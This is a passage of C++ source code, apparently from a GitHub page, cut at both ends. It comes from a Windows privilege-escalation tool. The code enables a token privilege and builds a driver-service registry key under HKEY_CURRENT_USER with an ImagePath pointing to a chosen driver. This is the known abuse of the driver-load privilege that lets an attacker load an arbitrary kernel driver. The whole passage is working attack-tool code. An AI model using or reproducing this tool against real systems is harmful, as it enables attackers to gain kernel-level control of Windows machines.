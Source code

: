 ```cpp

  if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid)) {
    wprintf(L"[-] LookupPrivilegeValue error: %u\n", GetLastError());
    return FALSE;
  }

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  if (bEnablePrivilege) {
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
  } else {
    tp.Privileges[0].Attributes = 0;
  }

  // enable or disable
  if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) {
    wprintf(L"[-] AdjustTokenPrivileges error: %u\n", GetLastError());
    return FALSE;
  }

  if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
    wprintf(L"[-] The token does not have the specified privilege. \n");
    return FALSE;
  }

  return TRUE;
}

ULONG CreateRegistryKey(const wchar_t* RegistryPath, const wchar_t* DriverPath) {
  ULONG dwErrorCode;
  HKEY hKey;
  DWORD dwDisposition;
  DWORD dwServiceType = 1;
  DWORD dwServiceErrorControl = 1;
  DWORD dwServiceStart = 3;
  SIZE_T ServiceImagePathSize;
  wchar_t registryPath[MAX_PATH], serviceImagePath[MAX_PATH];

  snwprintf(registryPath, MAX_PATH, L"%ls", RegistryPath);
  snwprintf(serviceImagePath, MAX_PATH, L"\\??\\%ls", DriverPath);
  wprintf(L"[*] Target Driver Path: %ls\n", serviceImagePath);
  wprintf(L"[*] Target Registry Path in HKCU: %ls\n", registryPath);

  dwErrorCode = RegCreateKeyExW(HKEY_CURRENT_USER, registryPath, 0, NULL, 0, KEY_ALL_ACCESS, NULL, &hKey, &dwDisposition);
  if (dwDisposition != REG_CREATED_NEW_KEY) {
    RegCloseKey(hKey);
    wprintf(L"RegCreateKeyEx failed: 0x%x\n", dwErrorCode);
    return dwErrorCode;
  }

  ServiceImagePathSize = (lstrlenW(serviceImagePath) + 1) * sizeof(WCHAR);
  dwErrorCode = RegSetValueExW(hKey, L"ImagePath", 0, REG_EXPAND_SZ, (const BYTE *)serviceImagePath, ServiceImagePathSize);
  if (dwErrorCode) {
    RegCloseKey(hKey);
    return dwErrorCode;
  }

  dwErrorCode = RegSetValueExW(hKey, L"Type", 0, REG_DWORD, (const BYTE *)&dwServiceType, sizeof(DWORD));
  if (dwErrorCode) {
```